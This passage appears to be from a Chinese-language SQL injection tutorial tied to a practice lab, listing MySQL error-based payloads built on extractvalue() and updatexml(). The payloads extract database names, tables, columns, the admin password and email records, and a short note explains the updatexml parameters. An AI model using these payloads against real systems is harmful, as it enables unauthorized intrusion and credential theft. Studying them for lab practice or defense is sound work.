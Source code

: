 ~~~ shell
1' and (extractvalue(1,concat(0x5c,version(),0x5c)))#    爆版本
1' and (extractvalue(1,concat(0x5c,database(),0x5c)))#   爆数据库
 
1' and (extractvalue(1,concat(0x5c,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x5c)))#   爆表名
1' and (extractvalue(1,concat(0x5c,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x5c)))# 
 爆字段名
 
1' and (extractvalue(1,concat(0x5c,(select password from (select password from users where username='admin1') b) ,0x5c)))#      爆字段内容该格式针对mysql数据库。
1' and (extractvalue(1,concat(0x5c,(select group_concat(username,password) from users),0x5c)))#                      爆字段内容。
~~~



+ **updatexml报错注入**

~~~ tex
UPDATEXML (XML_document, XPath_string, new_value)
	第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc
	第二个参数：XPath_string (Xpath格式的字符串) ，如果不了解Xpath语法，可以在网上查找教程。
	第三个参数：new_value，String格式，替换查找到的符合条件的数据
	作用：改变文档中符合条件的节点的值，改变XML_document中符合XPATH_string的值
	当我们XPath_string语法报错时候就会报错，updatexml()报错注入和extractvalue()报错注入基本差不多。
~~~

~~~ shell
最后爆字段和上面一样如果加一个中间表

123' and (updatexml(1,concat(0x5c,version(),0x5c),1))#     爆版本
123' and (updatexml(1,concat(0x5c,database(),0x5c),1))#    爆数据库
 
123' and (updatexml(1,concat(0x5c,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x5c),1))#      爆表名
123' and (updatexml(1,concat(0x5c,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name ='users'),0x5c),1))#
   爆字段名
 
123' and (updatexml(1,concat(0x5c,(select password from (select password from users where username='admin1') b),0x5c),1))#
爆密码该格式针对mysql数据库。

爆其他表就可以，下面是爆emails表
123' and (updatexml(1,concat(0x5c,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name ='emails'),0x5c),1))#
 
1' and (updatexml (1,concat(0x5c,(select group_concat(id,email_id) from emails),0x5c),1))#   爆字段内容。
~~~



+ **group by报错注入**
